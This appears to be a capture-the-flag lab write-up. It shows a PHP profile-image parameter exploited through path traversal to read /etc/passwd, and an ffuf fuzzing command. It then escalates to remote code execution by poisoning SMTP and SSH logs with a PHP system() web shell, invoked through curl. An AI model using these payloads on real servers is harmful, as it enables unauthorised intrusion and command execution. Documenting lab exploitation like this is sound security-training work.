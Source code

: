 # LFI + path traversal

From inspection of the network requests, I found a request that loads the profile image using a query parameter to specify the path to the file:

```http
GET /profile.php?img=profile.png HTTP/1.1
Host: xxx.xxx.xxx.xxx:50000
User-Agent: xxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: connect.sid=xxxx
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

As found previously, the `profile.png` is present in the `/uploads` directory. Thus, it appears that the `img` query input will be used to search for a file in that directory.&#x20;

Possible path: `/var/www/html/uploads/profile.png`.

### Simple payloads

With knowledge of the current directory, I started off with simple payloads:

1. Path traversal
   * `../../../../etc/passwd`
   * `%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd`  (URL encoded)
   * `..//..//..//..//etc/passwd`
   * `%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2Fetc%2Fpasswd` (URL encoded)
2. Remote public resource
   * [https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf\_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s)



### Brute force discovery

I performed a brute force attack using `ffuf`, with the [wordlist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/JHADDIX_LFI.txt):

* Cookie: `-H "Cookie: PHPSESSID=xxxx"`&#x20;
* Filter out empty responses: `--fs 0`

{% code overflow="wrap" %}
```sh
$ ffuf -w /<wordlist> -u http://<target>:50000/profile.php?img=FUZZ -H "Cookie: PHPSESSID=xxxx" --fs 0
```
{% endcode %}

The payload: `....//....//....//....//....//....//....//....//....//etc/passwd` was found to work:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This provides us the following information:

1. Usernames:
   * `joshua`, `charles`
2. More importantly, the server is vulnerable to a Local File Inclusion (LFI) vulnerability!

### Exploring methods of exploitation

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md" %}

Following the guide in the link above, I explored a few methods to gain RCE on the system. From the previous enumeration steps, we have found multiple open ports/services, where some of them provides use a means to escalate the LFI to RCE.

#### Log poisoning

I tried accessing the following log files (appended to found payload above):

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/sshd.log
/var/log/mail
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
```

#### 1. SMTP (port 25)  \~ `/var/log/syslog`

From enumeration of the _**SMTP**_ commands, I found a few that will directly log user inputs into the log file:

```sh
1. RCPT TO:<input> # requires MAIL TO:<addr> before
2. VRFY <input>
```

With this in mind, we can exploit this to achieve RCE. Let's use the _**VRFY**_ command:

```sh
VRFY <?php system($_GET['cmd']); ?>
```

Now, reading the `/var/log/syslog` via the LFI vulnerability, we are able to view the output of our command that will be executed on the vulnerable machine. With that, we have a gained a web shell. The output can be viewed with the command:

{% code overflow="wrap" %}
```sh
$ curl 'http://xxx.xxx.xxx.xxx:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/syslog&cmd=<command>' -H "Cookie: PHPSESSID=xxxx" --silent | tail -n 20

```
{% endcode %}

The following command allows us to read the last 20 lines of the log file. Remember to replace `<command>` with the actual command, and set the **PHPSESSID**.

We can now replace the command to look around the directory and view the contents of the text file to retrieve our final flag!

#### 2. SSH (port 22) \~ `/var/log/auth.log`&#x20;

**Username**

I attempted to send a payload via the username field to SSH:

```sh
$ ssh '<?php system('id'); ?>'@<host>
```

However, the SSH client does not allow special characters in the username.

**Identification string**

I explored another method to poison the logs via the identification string:

```sh
$ nc <host> 22
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
<?php system($_GET['cmd']); ?> # click enter right after
```

This method works.

#### Interesting discovery

With the `img` payload value of `#` (`/profile.php?img=#`), we are presented with a status **400** response:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Even though this does not allow for any direct exploits, it tells us the hostname: `mail.filepath.lab.`

